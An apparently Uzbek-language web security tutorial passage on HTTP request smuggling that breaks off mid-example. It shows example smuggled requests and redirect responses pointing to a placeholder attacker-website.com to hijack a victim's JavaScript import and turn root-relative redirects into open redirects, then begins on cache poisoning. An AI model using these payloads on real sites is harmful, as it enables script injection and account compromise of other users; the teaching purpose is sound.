 Ushbu smuggled so‘rovi hackerning saytiga yo‘naltiradi, bu keyingi foydalanuvchining back-end serveri tomonidan qayta ishlanadigan so‘roviga ta’sir qiladi. Maslaan:

```http
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

Bu erda foydalanuvchining so'rovi veb-saytdagi sahifa tomonidan import qilingan JavaScript fayli uchun edi. Xaker javobda o'z JavaScript-ni qaytarish orqali foydalanuvchini to'liq buzishi mumkin.

## Root-relative redirectionni Open redirectionga aylantirish

Ba'zi hollarda siz Location headeri uchun root-relative URL manzilini yaratish yo'lidan foydalanadigan server darajasidagi open redirectionlarga duch kelishingiz mumkin.

```http
GET /example HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: /example/
```

Agar server protokolga tegishli URL manzilidan foydalanishga ruxsat bersa, bundan hali ham ochiq yoʻnaltirish uchun foydalanish mumkin:

```http
GET //attacker-website.com/example HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Premanently
Location: //attacker-website.com/example/
```

## Web Cache zararlashda HTTP Request Smugglingdan foydalanish <a href="#web-cache-poisoning-ni-amalga-oshirish-uchun-http-request-smuggling-dan-foydalanish" id="web-cache-poisoning-ni-amalga-oshirish-uchun-http-request-smuggling-dan-foydalanish"></a>

Xujum qilish usullaridan yana biri bu HTTP Request Smuggling dan foydalangan holda Web Cache Poisoning xujumini amalga oshirishdir. Agar Frontend ning biror bir qismi cachelardan foydalansa (albatta cache lardan foydalanish performance sababidan bo'ladi ko'pincha), off-site redirect response bilan keshni zararlash mumkin bo'lishi mumkin. Bu xujumni doimiy ravishda amalga oshirish imkoniyatini beradi va har qanday ta'sir o'tkazilgan URL ga kirgan foydalanuvchiga ta'sir o'tkazishi mumkin.

Ushbu misolda, Haker quyidagilarni Frontend serverga yubormoqda:
